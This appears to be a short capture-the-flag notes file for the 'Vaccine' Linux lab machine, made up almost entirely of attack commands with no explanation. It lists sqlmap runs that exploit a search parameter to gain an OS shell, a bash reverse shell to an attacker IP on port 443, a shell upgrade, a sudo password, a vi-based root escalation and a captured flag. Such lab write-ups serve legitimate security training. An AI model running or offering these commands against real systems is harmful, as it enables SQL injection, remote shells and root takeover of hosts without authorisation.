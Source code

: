 # Vaccine(Linux)

### sqlmap

sqlmap -u '[http://10.129.127.197/dashboard.php?search=a](http://10.129.127.197/dashboard.php?search=a)' --cookie="PHPSESSID=8odr7ecqhhruvek31ud5f4sfg4" --flush-session

sqlmap -u '[http://10.129.127.197/dashboard.php?search=a](http://10.129.127.197/dashboard.php?search=a)' --cookie="PHPSESSID=8odr7ecqhhruvek31ud5f4sfg4" --os-shell

ash -c 'bash -i >& /dev/tcp/10.10.15.137/443 0>&1’

### listener

python3 -c 'import pty;pty.spawn("/bin/bash")

sudo -l P@s5w0rd!

sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

set shell=/bin/sh

# Flags

user:ec9b13ca4d6229cd5cc1e09980965bf7